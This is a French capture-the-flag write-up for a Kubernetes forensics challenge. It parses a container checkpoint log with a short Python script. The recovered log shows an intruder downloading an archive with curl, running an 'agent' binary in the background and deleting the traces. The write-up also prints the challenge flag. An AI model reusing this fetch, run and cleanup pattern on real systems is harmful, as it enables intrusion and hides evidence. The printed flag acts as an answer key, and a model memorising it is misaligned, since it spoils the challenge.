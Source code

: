 ```yaml
---
layout: default
type: writeup
title: Les Mystères du cluster de la Comtesse de Ségur [1/2]
category: Analyse forensique
point: 348
files: ['checkpoint-bash_default-bash-2023-05-06T090421Z.zip']
---
```


{% raw %}
> **title:** Les Mystères du cluster de la Comtesse de Ségur [1/2]
>
> **category:** Analyse forensique
>
> **difficulty:** Moyen
>
> **point:** 348
>
> **author:** Typhlos#9037
>
> **description:**
> Vous rencontrez la Comtesse de Ségur au Procope.  La Comtesse de Ségur a créé une entreprise de vente de livres en ligne en s'aidant du succès de ses livres pour enfants et l'a déployé sur un cluster Kubernetes.
> 
> Celle-ci vous explique avoir été victime d'une demande de rançon. En effet, quelqu'un lui a volé ses livres pas encore publiés et menace de les publier sur Internet si elle ne lui paye la rançon demandée.
> 
> La Comtesse vous demande d'enquêter sur la manière dont le maître chanteur a pu voler ses livres et vous donne pour cela les informations à sa disposition.
> 
> ***
> 
> Votre mission consiste à exploiter le fichier fourni pour y retrouver les traces du maître chanteur.
> 
> ***
> 
> La 2e partie est en rétro-ingénierie.

## Solution

Le fichier nommé **`io.kubernetes.cri-o.LogPath`** est intéressant mais il faut le parser.

En python cela donne :

```python
data = open('checkpoint-bash_default-bash-2023-05-06T090421Z/io.kubernetes.cri-o.LogPath').readlines()
lines = []
for line in data:
	if line.startswith('2023-05-12'):
		lines.append(line)
	else:
		lines[-1] += line

lines = [line.split('stdout ')[1].split(' ', 1) for line in lines]
for line in lines:
	print(line[1][:-1], end='')
```

```
(Reading database ... 55%
(Reading database ... 60%
(Reading database ... 65%(Reading database ... 70%(Reading database ... 75%(Reading database ... 80%(Reading database ... 85%(Reading database ... 90%(Reading database ... 95%(Reading database ... 100%
(Reading database ... 7138 files and directories currently installed.)Preparing to unpack .../xxd_2%3a8.2.2434-3+deb11u1_amd64.deb ...7Progress: [  0%] [.................................................................................................................................] 87Progress: [  5%] [######...........................................................................................................................] 8Unpacking xxd (2:8.2.2434-3+deb11u1) ...7Progress: [ 10%] [############.....................................................................................................................] 8Selecting previously unselected package vim-common.Preparing to unpack .../vim-common_2%3a8.2.2434-3+deb11u1_all.deb ...7Progress: [ 14%] [##################...............................................................................................................] 8Unpacking vim-common (2:8.2.2434-3+deb11u1) ...7Progress: [ 19%] [########################.........................................................................................................] 8Selecting previously unselected package libgpm2:amd64.Preparing to unpack .../libgpm2_1.20.7-8_amd64.deb ...7Progress: [ 24%] [##############################...................................................................................................] 8Unpacking libgpm2:amd64 (1.20.7-8) ...7Progress: [ 29%] [####################################.............................................................................................] 8Selecting previously unselected package vim-runtime.Preparing to unpack .../vim-runtime_2%3a8.2.2434-3+deb11u1_all.deb ...7Progress: [ 33%] [##########################################.......................................................................................] 8Adding 'diversion of /usr/share/vim/vim82/doc/help.txt to /usr/share/vim/vim82/doc/help.txt.vim-tiny by vim-runtime'Adding 'diversion of /usr/share/vim/vim82/doc/tags to /usr/share/vim/vim82/doc/tags.vim-tiny by vim-runtime'Unpacking vim-runtime (2:8.2.2434-3+deb11u1) ...7Progress: [ 38%] [#################################################................................................................................] 8Selecting previously unselected package vim.Preparing to unpack .../vim_2%3a8.2.2434-3+deb11u1_amd64.deb ...7Progress: [ 43%] [#######################################################..........................................................................] 8Unpacking vim (2:8.2.2434-3+deb11u1) ...7Progress: [ 48%] [#############################################################....................................................................] 8Setting up libgpm2:amd64 (1.20.7-8) ...7Progress: [ 52%] [###################################################################..............................................................] 87Progress: [ 57%] [#########################################################################........................................................] 8Setting up xxd (2:8.2.2434-3+deb11u1) ...7Progress: [ 62%] [###############################################################################..................................................] 87Progress: [ 67%] [#####################################################################################............................................] 8Setting up vim-common (2:8.2.2434-3+deb11u1) ...7Progress: [ 71%] [############################################################################################.....................................] 87Progress: [ 76%] [##################################################################################################...............................] 8Setting up vim-runtime (2:8.2.2434-3+deb11u1) ...7Progress: [ 81%] [########################################################################################################.........................] 87Progress: [ 86%] [##############################################################################################################...................] 8Setting up vim (2:8.2.2434-3+deb11u1) ...7Progress: [ 90%] [####################################################################################################################.............] 8update-alternatives: using /usr/bin/vim.basic to provide /usr/bin/vim (vim) in auto modeupdate-alternatives: using /usr/bin/vim.basic to provide /usr/bin/vimdiff (vimdiff) in auto modeupdate-alternatives: using /usr/bin/vim.basic to provide /usr/bin/rvim (rvim) in auto modeupdate-alternatives: using /usr/bin/vim.basic to provide /usr/bin/rview (rview) in auto modeupdate-alternatives: using /usr/bin/vim.basic to provide /usr/bin/vi (vi) in auto modeupdate-alternatives: using /usr/bin/vim.basic to provide /usr/bin/view (view) in auto modeupdate-alternatives: using /usr/bin/vim.basic to provide /usr/bin/ex (ex) in auto modeupdate-alternatives: using /usr/bin/vim.basic to provide /usr/bin/editor (editor) in auto mode7Progress: [ 95%] [##########################################################################################################################.......] 8Processing triggers for libc-bin (2.31-13+deb11u6) ...78root@bash:/# curl agent.challenges.404ctf.fr -o agent.zip  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100 1544k  100 1544k    0     0   251M      0 --:--:-- --:--:-- --:--:--  251Mroot@bash:/# mv out.txt /rroot/ run/  root@bash:/# mv out.txt /root/root@bash:/# mv agent.zip /root/root@bash:/# cd /root/root@bash:~# lsagent.zip  out.txtroot@bash:~# unzip agent.zip Archive:  agent.zip  inflating: agent                     inflating: flag.txt                root@bash:~# export HONEYPOT=trueroot@bash:~# ./agent&[1] 9317root@bash:~# rm agent agent.zip flag.txt root@bash:~# 
root@bash:~# kill -9 9317root@bash:~#
```

Dans les dernières lignes, on peut voir : 

**`curl agent.challenges.404ctf.fr -o agent.zip`**

Si l'on télécharge le fichier, à l'intérieur on trouvera **`flag.txt`**

<br>

**`FLAG : 404CTF{K8S_checkpoints_utile_pour_le_forensic}`**

{% endraw %}